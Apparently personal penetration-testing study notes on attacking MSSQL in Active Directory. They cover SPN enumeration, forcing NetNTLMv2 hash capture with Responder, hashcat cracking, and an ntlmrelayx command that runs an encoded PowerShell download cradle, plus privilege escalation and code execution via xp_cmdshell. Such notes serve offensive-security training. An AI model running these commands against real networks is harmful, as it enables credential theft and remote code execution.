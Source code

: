 ## Microsoft SQL attacks

MSSQL in AD have SPN. To query the DC:

#AD #SPN #cmd
``` cmd
setspn -T corp1 -Q MSSQLSvc/*
```

#useful-script #ps1
```powershell
. .\GetUserSPNs.ps1
```

### Authentication in MSSQL

In AD this is handled by Kerberos, and the mapping between the user and dbo is done. If no mapping, the user will be guest. To login mapped to sa will have sysadmin role. 

Domain Users are member of Builtin Users group which has access by default.

For code refer to the mssql-exp VS project.

### UNC Path Injection 

The idea is to force the MSSQL to connect to our SMB share so we capture NETNTLMv2 hash for cracking, later we will also learn to relay the hash.
We must provide the UNC path with IP, not hostname as Windows would automatically switch from Kerberos to NetNTLM. 

Run the mssql-exp binary, but start the responder first on Kali to get the hash.
#NetNTLM #responder
``` bash
sudo responder -I tun0
```

For cracking.
#hashcat #cracking
``` bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


### Relay NetNTLM hash

To not crack the hash we can relay it - the password may be strong. If the user whose hash we relay is local admin, we can get code exec. It is only possible if SMB signing not enabled (enabled by default on DC, but not on the standard Windows Servers).

To start the relay attack we give the encoded ps1 with download cradle:
#encoding #impacket
``` bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc <encoded_download_cradle>'
```

### MSSQL Priv escalation

The goal is to obtain access to the user who is sysadmin in MSSQL - we can use the AD priv esc. We can also do impersonation with the usage of EXECUTE AS - only certain users can use impersonation; not every user has it, there must be misconfig. We can Impersonate on user and login (EXECUTE AS USER/LOGIN). We can enumerate which account allows impersonation, but we cannot enumerate who can impersonate them.
For execute as USER we must do it on the msdb as it is TRUSTWORTHY with user dbo as he has sa.

#### Linked SQL Servers for Priv Escalation




### Getting code execution 

To obtain code execution we can use: xp_cmdshell, sp_oacreate (Ole Automation Procedure) or through loading custom assembly. Refer to the mssql-exp in code section for implementation.

For Custom Assemblies we can use the CREATE ASSEMBLY procedure, but that also requires TRUSTWORTHY db. We import managed dll as an object and execute. To hex encode assembly we use the follow:
[[Oneliners#^6217c2]]






